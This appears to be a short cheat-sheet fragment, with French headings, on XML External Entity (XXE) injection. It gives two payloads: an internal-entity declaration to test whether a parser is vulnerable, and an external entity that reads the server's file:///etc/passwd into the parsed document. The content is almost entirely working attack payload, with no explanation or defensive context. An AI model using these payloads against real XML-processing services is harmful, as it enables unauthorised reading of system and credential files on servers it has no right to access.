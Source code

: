Test vuln presence

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
```

Lire un fichier systeme

```xml
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>
	&read;
</root>
```